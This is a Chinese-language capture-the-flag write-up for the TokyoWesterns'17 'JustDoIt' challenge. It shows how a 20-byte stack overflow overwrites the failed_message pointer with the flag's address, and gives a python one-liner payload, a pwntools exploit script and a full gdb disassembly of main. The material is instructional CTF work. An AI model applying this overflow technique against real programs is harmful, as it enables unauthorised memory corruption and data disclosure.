

# 2.2 TokyoWesterns'17: JustDoIt
首先查看安全机制


然后用IDA查看反汇编的代码


从代码中可以看出，程序首先判断是否存在可读的flag.txt文件，然后把flag.txt文件的内容读取到flag变量中，接着获取用户输入，判断用户输入是否等于PASSWORD变量，等于则输出成功消息

查看PASSWORD变量的值为P@SSW0RD


输入程序后，并不能输出flag


我们可以看到用户输入的最长长度为32，否则就能够覆盖EIP进行RCE了，那么现在我们知道flag保存在flag变量里，而能够输出的变量则是success\_message 和 failed\_message，所以我们需要把failed\_message的地址覆盖为flag的地址，这样程序输出错误消息的时候就能够输出flag，failed\_message又赋值给变量v6，所以需要知道v6, s, flag变量的偏移地址

查看得到v6变量和s变量的偏移地址如下，分别为0xc和0x20：


flag变量的地址为0x804a080：


所以可以构造payload如下：

```python
python -c 'print "0" * 20 + "\x80\xa0\x04\x08"' | ./just_do_it
# 地址从后面往前读
```
```python
#!/usr/bin/env python

from pwn import *

payload = "0" * 20 + p32(0x804A080)

target = process('./just_do_it')
target.sendline(payload)
target.interactive()
```


使用gdb来进行分析，首先反汇编得到汇编代码

```cpp
Dump of assembler code for function main:
   0x080485bb <+0>: lea    ecx,[esp+0x4]
   0x080485bf <+4>: and    esp,0xfffffff0
   0x080485c2 <+7>: push   DWORD PTR [ecx-0x4]
   0x080485c5 <+10>:    push   ebp
   0x080485c6 <+11>:    mov    ebp,esp
   0x080485c8 <+13>:    push   ecx
   0x080485c9 <+14>:    sub    esp,0x24
   0x080485cc <+17>:    mov    eax,ds:0x804a060
   0x080485d1 <+22>:    push   0x0
   0x080485d3 <+24>:    push   0x2
   0x080485d5 <+26>:    push   0x0
   0x080485d7 <+28>:    push   eax
   0x080485d8 <+29>:    call   0x8048490 <setvbuf@plt>
   0x080485dd <+34>:    add    esp,0x10
   0x080485e0 <+37>:    mov    eax,ds:0x804a064
   0x080485e5 <+42>:    push   0x0
   0x080485e7 <+44>:    push   0x2
   0x080485e9 <+46>:    push   0x0
   0x080485eb <+48>:    push   eax
   0x080485ec <+49>:    call   0x8048490 <setvbuf@plt>
   0x080485f1 <+54>:    add    esp,0x10
   0x080485f4 <+57>:    mov    eax,ds:0x804a040
   0x080485f9 <+62>:    push   0x0
   0x080485fb <+64>:    push   0x2
   0x080485fd <+66>:    push   0x0
   0x080485ff <+68>:    push   eax
   0x08048600 <+69>:    call   0x8048490 <setvbuf@plt>
   0x08048605 <+74>:    add    esp,0x10
   0x08048608 <+77>:    mov    eax,ds:0x804a038     ; this is failed_message
   0x0804860d <+82>:    mov    DWORD PTR [ebp-0xc],eax  ; var v6 store in ebp-0xc
   0x08048610 <+85>:    sub    esp,0x8
   0x08048613 <+88>:    push   0x80487d1
   0x08048618 <+93>:    push   0x80487d3
   0x0804861d <+98>:    call   0x80484a0 <fopen@plt>
   0x08048622 <+103>:   add    esp,0x10
   0x08048625 <+106>:   mov    DWORD PTR [ebp-0x10],eax
   0x08048628 <+109>:   cmp    DWORD PTR [ebp-0x10],0x0
   0x0804862c <+113>:   jne    0x8048648 <main+141>
   0x0804862e <+115>:   sub    esp,0xc
   0x08048631 <+118>:   push   0x80487dc
   0x08048636 <+123>:   call   0x8048450 <perror@plt>
   0x0804863b <+128>:   add    esp,0x10
   0x0804863e <+131>:   sub    esp,0xc
   0x08048641 <+134>:   push   0x0
   0x08048643 <+136>:   call   0x8048470 <exit@plt>
   0x08048648 <+141>:   sub    esp,0x4
   0x0804864b <+144>:   push   DWORD PTR [ebp-0x10]
   0x0804864e <+147>:   push   0x30
   0x08048650 <+149>:   push   0x804a080
   0x08048655 <+154>:   call   0x8048440 <fgets@plt>
   0x0804865a <+159>:   add    esp,0x10
   0x0804865d <+162>:   test   eax,eax
   0x0804865f <+164>:   jne    0x804867b <main+192>
   0x08048661 <+166>:   sub    esp,0xc
   0x08048664 <+169>:   push   0x80487ee
   0x08048669 <+174>:   call   0x8048450 <perror@plt>
   0x0804866e <+179>:   add    esp,0x10
   0x08048671 <+182>:   sub    esp,0xc
   0x08048674 <+185>:   push   0x0
   0x08048676 <+187>:   call   0x8048470 <exit@plt>
   0x0804867b <+192>:   sub    esp,0xc
   0x0804867e <+195>:   push   0x8048800
   0x08048683 <+200>:   call   0x8048460 <puts@plt>
   0x08048688 <+205>:   add    esp,0x10
   0x0804868b <+208>:   sub    esp,0xc
   0x0804868e <+211>:   push   0x8048835
   0x08048693 <+216>:   call   0x8048460 <puts@plt>
   0x08048698 <+221>:   add    esp,0x10
   0x0804869b <+224>:   mov    eax,ds:0x804a060
   0x080486a0 <+229>:   sub    esp,0x4
   0x080486a3 <+232>:   push   eax
   0x080486a4 <+233>:   push   0x20
   0x080486a6 <+235>:   lea    eax,[ebp-0x20]
   0x080486a9 <+238>:   push   eax
   0x080486aa <+239>:   call   0x8048440 <fgets@plt>
   0x080486af <+244>:   add    esp,0x10
   0x080486b2 <+247>:   test   eax,eax
   0x080486b4 <+249>:   jne    0x80486d0 <main+277>
   0x080486b6 <+251>:   sub    esp,0xc
   0x080486b9 <+254>:   push   0x8048849
   0x080486be <+259>:   call   0x8048450 <perror@plt>
   0x080486c3 <+264>:   add    esp,0x10
   0x080486c6 <+267>:   sub    esp,0xc
   0x080486c9 <+270>:   push   0x0
   0x080486cb <+272>:   call   0x8048470 <exit@plt>
   0x080486d0 <+277>:   mov    eax,ds:0x804a03c
   0x080486d5 <+282>:   sub    esp,0x8
   0x080486d8 <+285>:   push   eax
   0x080486d9 <+286>:   lea    eax,[ebp-0x20]
   0x080486dc <+289>:   push   eax
   0x080486dd <+290>:   call   0x8048430 <strcmp@plt>
   0x080486e2 <+295>:   add    esp,0x10
   0x080486e5 <+298>:   test   eax,eax
   0x080486e7 <+300>:   jne    0x80486f1 <main+310>
   0x080486e9 <+302>:   mov    eax,ds:0x804a034
   0x080486ee <+307>:   mov    DWORD PTR [ebp-0xc],eax
   0x080486f1 <+310>:   sub    esp,0xc
   0x080486f4 <+313>:   push   DWORD PTR [ebp-0xc]
   0x080486f7 <+316>:   call   0x8048460 <puts@plt>
   0x080486fc <+321>:   add    esp,0x10
   0x080486ff <+324>:   mov    eax,0x0
   0x08048704 <+329>:   mov    ecx,DWORD PTR [ebp-0x4]
   0x08048707 <+332>:   leave  
   0x08048708 <+333>:   lea    esp,[ecx-0x4]
   0x0804870b <+336>:   ret    
End of assembler dump.

```
从代码中截取变量v6的部分

